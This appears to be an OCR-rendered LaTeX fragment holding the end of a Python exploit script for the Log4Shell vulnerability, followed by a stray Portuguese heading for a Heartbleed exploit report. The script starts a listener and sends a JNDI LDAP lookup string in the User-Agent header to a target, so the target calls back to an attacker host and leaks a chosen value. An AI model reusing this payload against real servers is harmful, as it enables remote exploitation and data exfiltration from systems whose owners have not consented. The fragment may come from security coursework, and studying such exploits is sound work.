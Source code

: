 \documentclass[11t]{article}
\begin{document}
\begin{lstlisting}[breaklines=true]
    print(f' i| starting server on {args.listen_host}:{args.listen_port}')
    server = ThreadedTCPServer((args.listen_host, args.listen_port),
ThreadedTCPRequestHandler)

    serv_thread = threading.Thread(target=server.serve_forever)
    serv_thread.daemon = True
    serv_thread.start()
    time.sleep(1)
    print(f' i| server started')

    payload = f'${{jndi:ldap://{args.exploit_host}:{args.listen_port}/{args.leak}}}'
    print(f' i| sending exploit payload {payload} to {args.target}')

    try:
        r = requests.get(args.target, headers={'User-Agent': payload})
        print(f' i| response status code: {r.status_code}')
        print(f' i| response: {r.text}')
    except Exception as e:
        print(f' e| failed to make request: {e}')
    finally:
        server.shutdown()
        server.server_close()


if __name__ == '__main__':
    main()
\end{lstlisting}

\clearpage




\subsection*{Relatório Exploit OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak}
\end{document}
